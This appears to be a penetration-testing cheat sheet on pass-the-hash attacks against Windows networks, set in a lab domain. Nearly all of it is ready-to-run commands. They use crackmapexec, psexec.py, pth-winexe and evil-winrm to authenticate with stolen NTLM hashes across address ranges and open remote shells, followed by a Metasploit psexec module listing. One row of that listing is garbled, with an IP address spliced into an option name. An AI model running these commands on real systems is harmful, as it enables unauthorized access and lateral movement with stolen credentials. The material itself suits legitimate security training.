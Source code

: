 ### Pass The Hash

```
# Login as user only with hashdump
# From this hashdump
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

## CRACK MAP EXEC

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -H <NTLM Hash> --local-auth # Check other machines for dual access with the same hash; --sam (dump SAM file)

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -p <P@ssw0rd1>

## PSEXEC

psexec.py "frank castle":@192.168.68.122 -hashes aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 # attempt to gain a shell

## Pth-Winexe

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb //10.11.1.24 cmd

##Evil-Winrm

evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

evil-winrm  -i 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

## Impacket-PSexec:

python3 /usr/share/impacket/impacket/examples/psexec.py "Administrator":@10.11.1.121 -hashes aad3b435b51404eeaad3b435b51404ee:57321e6a0eef2c45985c9fa49c5cd24f #upload/download files with shell access


msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```